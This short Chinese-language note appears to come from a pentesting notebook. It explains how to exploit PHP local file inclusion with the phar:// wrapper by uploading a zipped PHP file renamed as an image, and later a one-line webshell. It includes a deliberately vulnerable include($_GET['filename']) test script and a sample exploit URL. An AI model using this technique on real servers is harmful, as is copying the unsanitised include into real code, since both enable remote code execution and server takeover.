 用法：?file=phar://压缩包/内部文件 phar://xxx.png/shell.php 注意： PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。 
步骤： 写一个info.php，然后用zip协议压缩为info.zip，然后将后缀改为png等其他格式,然后传入服务器。

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

http://172.16.3.186/test/incliue.php?filename=phar://../info.png/info.php
![f5ae12e56f1165f53e2a9329c05675fa.png](../../images/6f122a73c5a34fd697c6155c3a7bccb8.png)
写入shell:  写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式,然后传入服务器。